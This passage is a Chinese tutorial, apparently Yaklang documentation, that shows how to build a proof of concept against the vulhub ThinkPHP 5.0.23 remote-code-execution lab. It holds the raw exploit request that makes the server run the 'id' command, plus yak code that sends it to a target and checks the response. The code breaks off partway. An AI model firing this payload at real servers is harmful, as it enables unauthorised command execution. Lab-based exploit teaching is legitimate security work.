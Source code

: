 **注意: 我们使用 [`vulhub`中 ThinkPHP 框架的靶场作为目标靶场](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)**

通过对靶场的了解，我们通过

```bash
git clone https://github.com/vulhub/vulhub --depth 1
cd vulhub/thinkphp/5.0.23-rce
docker-compose up -d
```

来启动靶场，然后阅读 `README`，我们发现以下数据包是关键 PoC

```http
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

针对这个数据包，我么可以有下面主要三种方法来构造 PoC，举最简单的例子。

### 使用 `poc` 构建 PoC

由于绝大部分的 Web 类 PoC 都是发送一个数据包，检查结果。因此我们可以定向针对这种情况做优化。

例如，我们可以精准替换掉数据包中参数的内容，而不需要专门去构造一个数据包的各种其他 "无关" 的参数。

最简单暴力的就是，我们直接发送一个数据包！

在如下例子中，我们通过 `func poc.HTTP(packetRaw: string|[]byte, extraParams ...opt) (responseRaw: []byte, requestRaw: []byte, err error)` 这个函数可以直接发送一个数据包。

遇到需要替换的部分，可以使用 `{{param(name)}}` 标签来标记，然后标记中 `param()` 中括号中的内容是我们需要替换的参数名称。

例如如下案例，我们在 `Host: {{param(target)}}` 中标记了参数，通过 `poc.HTTP(packet, http.params({"target": "localhost:8080"}))` 中的 `http.params` 可以替换掉标记的内容。

从而构建一个完整的数据包，这个数据包可以直接通过 `poc.HTTP` 发送出去，把最最原始的结果返回给用户。

返回的内容有三个参数，分别是

1. response 的原始数据包内容
1. request 原始数据包内容
1. error 失败原因（如果没有失败，这个值为 `nil`） 

具体代码如下

```yak
rsp, req, err := poc.HTTP(`
POST /index.php?s=captcha HTTP/1.1
Host: {{param(target)}}
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
`, poc.params({
    "target": "localhost:8080",
}))
die(err)

if re.Match(`((uid\=\d*)|(gid\=\d*)|(groups=\d*))`, rsp) {
```